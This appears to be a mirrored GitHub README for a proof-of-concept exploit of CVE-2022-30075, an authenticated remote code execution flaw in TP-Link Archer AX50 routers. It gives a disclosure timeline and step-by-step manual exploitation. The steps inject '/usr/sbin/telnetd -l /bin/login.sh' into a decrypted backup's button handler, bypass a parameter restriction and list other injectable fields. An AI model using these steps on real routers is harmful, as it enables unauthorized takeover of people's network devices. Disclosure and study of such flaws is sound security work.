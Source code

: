 # CVE-2022-30075

Tp-Link Archer AX50 Authenticated RCE (CVE-2022-30075)

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/aaronsvk](https://github.com/aaronsvk) |
| Url      | [https://github.com/aaronsvk/CVE-2022-30075](https://github.com/aaronsvk/CVE-2022-30075)                                               |
| Stars    | 197                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>



</details>

## Readme

# CVE-2022-30075
Authenticated Remote Code Execution in Tp-Link Routers

### Affected Devices
If your Tp-Link router has backup and restore functionality and firmware is older than june 2022, it is probably vulnerable

### Tested With
Tp-Link Archer AX50, other tplink routers may use different format of backups and exploit needs to be modified

### PoC
Using exploit for starting telnet daemon on the router
![tplink](https://user-images.githubusercontent.com/28111712/172499966-8a5d486f-c79d-4fe2-95ff-de77d211ab54.png)

### Manual Exploitation
1. login to router web interface  
2. go to advanced -> system -> backup settings
3. decrypt and decompress backup file
- if your router uses different format of backup files you can modify exploit code (class BackupParser) or simply use some tool from github:  
https://github.com/stdnoerr/tp_link_credentials_harvester/blob/master/decrypt.py  
https://github.com/ret5et/tplink_backup_decrypt_2022.bin  
...
4. in decrypted xml file you can find something like this:
```xml
<button name="led_switch">
  <action>pressed</action>
  <button>ledswitch</button>
  <handler>/lib/led_switch</handler>
</button>
```
- replace it with these lines
```xml
<button name="exploit">
  <action>pressed</action>
  <button>ledswitch</button>
  <handler>/usr/sbin/telnetd -l /bin/login.sh</handler>
</button>
```
- there is a restriction that blocks modification of parameter `system.button.handler`, but it can be easily bypassed by changing name of parent xml node (e.g. `name="exploit"`)
- code execution can be achieved not only by changing parameter `system.button.handler`, but also using `ddns.service.ip_script`, `firewall.include.path`, `uhttpd.main`, and others... 
5. compress and encrypt modified backup file
6. go to advanced -> system -> restore settings -> upload modified backup file
7. after reboot, push the led button that triggers execution of injected command `/usr/sbin/telnetd -l /bin/login.sh`
8. remotelly login to router: `telnet 192.168.1.1`

### Timeline
15.03.2022 - Identified vulnerability  
15.03.2022 - Contacted Tp-Link support  
16.03.2022 - Recieved response from Tp-Link  
02.05.2022 - Assigned CVE  
27.05.2022 - Tp-Link released firmware with fixed vulnerability  
07.06.2022 - Published technical details  



## Get the content

```
git clone https://github.com/aaronsvk/CVE-2022-30075
cd CVE-2022-30075
```

{% embed url="https://github.com/aaronsvk/CVE-2022-30075" %}

<figure><img src="https://avatars.githubusercontent.com/u/28111712?v=4" alt=""><figcaption><p>aaronsvk</p></figcaption></figure>
